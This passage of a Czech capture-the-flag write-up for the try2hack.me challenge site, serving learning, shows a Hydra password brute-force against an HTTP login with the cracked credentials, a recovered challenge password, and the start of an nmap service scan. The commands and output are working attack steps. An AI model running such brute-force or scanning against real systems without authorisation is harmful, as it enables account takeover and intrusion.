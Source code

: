 ```
```
root@kali:/usr/share/wordlists# hydra -l admin -P 10000_common_passwords -S -s 443 -f try2hack.me http-get /manage/
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-04-16 13:02:46
```
...a po chvilce:

```
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10000 login tries (l:1/p:10000), ~625 tries per task
[DATA] attacking http-gets://try2hack.me:443/manage/
[443][http-get] host: try2hack.me   login: admin   password: falcon
[STATUS] attack finished for try2hack.me (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-04-16 13:03:15
```

Uspech. Login je opravdu ```admin``` a heslo je ```falcon```. Nyni uz staci otevrit URL v prohlizeci, zadat credentials a vyzvednout si kod...

```
Password: Veinsg5Vskg2Fpcb 
```

Ukol c. 12 [zatim nevyreseno]
---

Ukol c. 13 [zatim nevyreseno]
---


Ukol c. 14 [vyreseno]
---
Na serveru try2hack.me pry bezi nejake sitove uloziste, ktere mame objevit a tim se dostat i k heslu.
Jelikoz nevime vubec nic, tak zacneme nmap-em:

```
root@kali:~# nmap -sV try2hack.me
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-17 12:16 CEST
Nmap scan report for try2hack.me (31.31.79.10)
Host is up (0.019s latency).
Other addresses for try2hack.me (not scanned): 2a02:2b88:2:1::663d:1
Not shown: 984 closed ports
PORT      STATE    SERVICE          VERSION
22/tcp    open     ssh              OpenSSH 7.4p1 (protocol 2.0)
25/tcp    filtered smtp
80/tcp    open     http             Apache httpd (Nette Framework)
111/tcp   open     rpcbind          2-4 (RPC #100000)
443/tcp   open     ssl/ssl          Apache httpd (SSL-only mode)
513/tcp   filtered login
514/tcp   filtered shell
2049/tcp  open     nfs_acl          3 (RPC #100227)
2710/tcp  filtered sso-service
3000/tcp  filtered ppp
6901/tcp  filtered jetstream
7000/tcp  filtered afs3-fileserver
9000/tcp  filtered cslistener
9091/tcp  filtered xmltec-xmlmail
10000/tcp filtered snet-sensor-mgmt
49160/tcp filtered unknown
